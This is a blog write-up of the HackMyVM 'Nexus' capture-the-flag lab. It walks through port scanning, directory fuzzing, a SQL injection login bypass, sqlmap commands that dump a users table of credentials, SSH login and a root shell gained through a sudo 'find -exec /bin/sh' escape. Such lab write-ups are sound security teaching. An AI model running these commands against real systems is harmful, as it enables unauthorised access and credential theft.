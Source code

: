 ```yaml
---
layout: post
title: "HackMyVM - Nexus"
# date: 2025-06-28 10:00:00 +0700
categories: [hackmyvm]
tags: [ctf, web exploit, sqli, linux]
image: /assets/images/Nexus-HackMyVM/image.png
---
```

# Nexus

![image.png](assets/images/Nexus-HackMyVM/image.png)

## Enumeration
### Port Scanning
Starting with an nmap scan to identify open ports and services:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:0A:A3:14 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see two open ports:
- **Port 22**: SSH service running OpenSSH 9.2p1
- **Port 80**: HTTP service running Apache 2.4.62

### Web Enumeration
Next, let's perform directory and file fuzzing to discover hidden content:

```bash
ffuf -c -w `fzf-wordlists` -u "http://$TARGET/FUZZ" -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.17/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

index.html              [Status: 200, Size: 825, Words: 124, Lines: 48, Duration: 1ms]
login.php               [Status: 200, Size: 352, Words: 61, Lines: 27, Duration: 11ms]
index2.php              [Status: 200, Size: 75134, Words: 30596, Lines: 1642, Duration: 14ms]
.                       [Status: 200, Size: 825, Words: 124, Lines: 48, Duration: 0ms] 
```

The fuzzing reveals several interesting files:
- `index.html` - Main page
- `login.php` - Login page
- `index2.php` - Another page with substantial content

![image.png](assets/images/Nexus-HackMyVM/image%201.png)

## Initial Access
### SQL Injection Discovery
Upon exploring the web application, we discover an additional authentication endpoint at `/auth-login.php`:

![image.png](assets/images/Nexus-HackMyVM/image%202.png)

Let's test for SQL injection vulnerabilities by attempting a basic bypass:

![image.png](assets/images/Nexus-HackMyVM/image%203.png)

Great! The login form is vulnerable to SQL injection. Now let's automate the exploitation process using sqlmap.

### Automated SQL Injection with sqlmap
First, we need to capture the login request using Burp Suite:

![image.png](assets/images/Nexus-HackMyVM/image%204.png)

1. Intercept the POST request during login attempt
2. Right-click and select "Copy to file"

![image.png](assets/images/Nexus-HackMyVM/image%205.png)

Save the request to a file (I'll name it `login.req`):

![image.png](assets/images/Nexus-HackMyVM/image%206.png)

Now we can use sqlmap to exploit the SQL injection vulnerability:

```bash
sqlmap -r login.req --batch
```

![image.png](assets/images/Nexus-HackMyVM/image%207.png)

### Database Enumeration
Let's enumerate the available databases:

```bash
sqlmap -r login.req --batch --dbs 

[14:26:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:26:25] [INFO] fetching database names
[14:26:25] [INFO] retrieved: 'information_schema'
[14:26:25] [INFO] retrieved: 'sion'
[14:26:25] [INFO] retrieved: 'mysql'
[14:26:25] [INFO] retrieved: 'performance_schema'
[14:26:25] [INFO] retrieved: 'Nebuchadnezzar'
[14:26:25] [INFO] retrieved: 'sys'
available databases [6]:
[*] information_schema
[*] mysql
[*] Nebuchadnezzar
[*] performance_schema
[*] sion
[*] sys
```

### Credential Extraction
The `sion` database looks interesting. Let's dump the user credentials:

```bash
sqlmap -r login.req --batch -D sion -T users --dump
```

![image.png](assets/images/Nexus-HackMyVM/image%208.png)

Perfect! We've successfully extracted user credentials. Now let's attempt SSH login:

![image.png](assets/images/Nexus-HackMyVM/image%209.png)

Excellent! We now have SSH access to the system with the user `shelly`.

## Privilege Escalation
### Sudo Permissions Analysis
Let's check what commands the current user can run with sudo privileges:

```bash
sudo -l
```

We can see that `shelly` has permission to run the `find` command with sudo privileges. This is a classic privilege escalation vector.

### GTFObins Research
According to [GTFObins](https://gtfobins.github.io/gtfobins/find/#sudo), the `find` command can be abused to spawn a shell:

![image.png](assets/images/Nexus-HackMyVM/image%2010.png)

### Root Shell Exploitation
Let's execute the privilege escalation command:

```bash
sudo find . -exec /bin/sh \; -quit
```

![image.png](assets/images/Nexus-HackMyVM/image%2011.png)

Success! We've successfully escalated privileges to root:

![image.png](assets/images/Nexus-HackMyVM/image%2012.png)

## Summary
This was my first lab from [HackMyVM](https://hackmyvm.eu/), and it provided a great introduction to:

1. **Web Application Testing**: Directory/file fuzzing and SQL injection identification
2. **SQL Injection Exploitation**: Using sqlmap for automated database enumeration and credential extraction
3. **Privilege Escalation**: Leveraging sudo permissions and GTFObins for root access

The attack path was straightforward but educational:
- Port scanning → Web enumeration → SQL injection → Credential extraction → SSH access → Sudo abuse → Root shell

This machine serves as an excellent starting point for beginners learning about web application security and basic Linux privilege escalation techniques.
